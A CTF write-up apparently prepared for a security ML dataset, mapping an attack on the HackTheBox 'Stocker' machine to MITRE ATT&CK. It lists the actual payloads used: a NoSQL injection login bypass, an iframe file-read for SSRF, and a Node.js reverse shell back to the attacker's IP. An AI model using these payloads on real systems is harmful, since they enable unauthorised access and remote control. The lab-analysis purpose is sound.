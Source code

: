 # Cyber4ML_Framework application in "Stocker" HTB machine

## Framework application details

|Documentation|MITRE ATT&CK|Network Analysis|Log Analysis|
|-|-|-|-|
|Yes|Yes|Yes|Yes|

|Attacker Level|Environment|VPN|Attacker IP|Victim IP|
|-|-|-|-|-|
|Average|Linux|Yes|10.10.16.31|10.10.11.196|

**Average:** The knowledge, behavior and attack-timing of the attacker is average.

## Documentation

Documentation of the attack: [Stocker Documentation](https://github.com/stevendamianakis/HackTheBox_Writeups/blob/main/Machines/Stocker/README.MD)

## MITRE ATT&CK mapping

Below, we map the attack to the MITRE ATT&CK Enterprise framework.

| Tactic | Technique | Subtechnique | Command/Script | CVE/CWE |
| - | - | - | - | - |
| Reconnaissance | Active Scanning | Wordlist Scanning | (1) | - |
| Initial Access | Exploit Public-Facing Application | - | (2) | - |
| Execution | Exploitation for Client Execution | - | (2) | - |
| Initial Access | Exploit Public-Facing Application | - | (3) | CVE-2020-24815/CWE-918 |
| Execution | Exploitation for Client Execution | - | (3) | CVE-2020-24815/CWE-918 |
| Initial Access | Valid Accounts | Local Accounts | - | - |
| Persistence | Valid Accounts | Local Accounts | (4) | - |
| Privilege Escalation | Exploitation for Privilege Escalation | - | (5) | - |
| Credential Access | Exploitation for Credential Access | - | - | - |


#### Commands/Scripts
- (1)
```
gobuster vhost -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u stocker.htb -t 50 --append-domain
```
- (2)
```
{"username":{"$ne":null}, "password":{"$ne":null}}
```

- (3)
```
<iframe src=file:///var/www/dev/index.js height=1000 width=1000></iframe>
```

- (4)
```
ssh angoose@stocker.htb
```

- (5)
```
(function(){ var net = require("net"), cp = require("child_process"), sh = cp.spawn("/bin/sh", []); var client = new net.Socket(); client.connect(4444, "10.10.16.31", function(){ client.pipe(sh.stdin); sh.stdout.pipe(client); sh.stderr.pipe(client); }); return /a/;})();
```

#### Alternative Commands/Scripts
- (5)
```
const fs = require(‘fs’);
fs.readFile(‘/root/root.txt’, ‘utf8’, (err, data) => {
 if (err) throw err;
 console.log(data);
});
```


## Network Analysis

Pcap file of the attack: [Capture File](https://github.com/stevendamianakis/Cyber4ML_Framework/blob/main/HackTheBox/Stocker/attack_capture.pcapng)

## Log Analysis

```
[sudo] password for angoose: 
Matching Defaults entries for angoose on stocker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User angoose may run the following commands on stocker:
    (ALL) /usr/bin/node /usr/local/scripts/*.js
```


```
HTTP/1.1 302 Found
Server: nginx/1.18.0 (Ubuntu)
Date: Thu, 30 Mar 2023 12:54:06 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 56
Connection: close
X-Powered-By: Express
Location: /stock
Vary: Accept

<p>Found. Redirecting to <a href="/stock">/stock</a></p>
```
